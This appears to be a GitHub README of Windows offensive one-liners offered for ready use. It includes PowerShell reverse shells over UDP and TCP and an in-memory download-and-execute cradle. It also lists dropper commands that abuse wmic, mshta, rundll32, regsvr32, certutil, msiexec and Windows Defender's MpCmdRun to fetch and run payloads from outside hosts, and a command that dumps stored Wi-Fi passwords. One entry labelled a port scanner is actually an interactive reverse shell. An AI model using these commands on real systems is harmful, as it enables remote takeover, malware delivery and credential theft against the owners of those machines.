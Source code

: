 This is a repository for github One Liners for Windows. You can port scan, get reverse shells with so many methods like below.

Reverse Shell Command Execution through UDP
<pre><code>powershell -nop -c "$s=New-Object System.Net.Sockets.Socket([System.Net.Sockets.AddressFamily]::InterNetwork,[System.Net.Sockets.SocketType]::Dgram,[System.Net.Sockets.ProtocolType]::UDP);$s.Connect((New-Object System.Net.IPEndPoint([system.net.IPAddress]::Parse(\"<HOSTIP>\"),53)));$s.send(([System.Text.Encoding]::ASCII).GetBytes((whoami)));"</pre></code>

Reverse Shell Command Execution through tcp
<pre><code>powershell -c "whoami | % {$w=(New-Object System.IO.StreamWriter((New-Object System.Net.Sockets.TCPClient([System.Net.IPAddress]::Parse(\"<HOSTIP>\"),80)).GetStream()));$w.WriteLine($_);$w.Flush()}"</pre></code>

Download PS Script
<pre><code>powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.9:8000/ipw.ps1')"</pre></code>

PS Port Scanner
<pre><code>$client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()</pre></code>

WMIC Dropper
<pre><code>wmic os get /format:"https://webserver/payload.xsl"</pre></code>

payload.xsl :
https://raw.githubusercontent.com/trickster0/Windows_OneLiners/master/payload.xsl

MSHTA Download
<pre><code>mshta.exe http://192.168.1.109:8080/5EEiDSd70ET0k.hta</pre></code>

RUNDLL Execute from SMB
<pre><code>rundll32.exe \\192.168.1.109\vabFG\test.dll,0</pre></code>

REGSRV Download and Execute
<pre><code>regsvr32 /s /n /u /i:http://192.168.1.109:8080/xo31Jt5dIF.sct scrobj.dll</pre></code>

CERTUTIL Download and Execute
<pre><code>certutil.exe -urlcache -split -f http://192.168.1.109/shell.exe shell.exe & shell.exe</pre></code>

MSIEXEC Download and Execute
<pre><code>msiexec /q /i http://192.168.1.109/1.msi</pre></code>

Grab all wireless passwords with PS
<pre><code>(netsh wlan show profiles) | Select-String "\:(.+)$" | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} | %{(netsh wlan show profile name="$name" key=clear)} | Select-String "Key Content\W+\:(.+)$" | %{$pass=$_.Matches.Groups[1].Value.Trim(); $_} | %{[PSCustomObject]@{ PROFILE_NAME=$name;PASSWORD=$pass }} | Format-Table -AutoSize</pre></code>

Download through Windows Defender
<pre><code>"C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\MpCmdRun.exe" -DownloadFile -url https://maliciousip/maliciousfile.exe -Path C:\Users\Public\maliciousfile.exe</pre></code>

P.S These were not made by me.
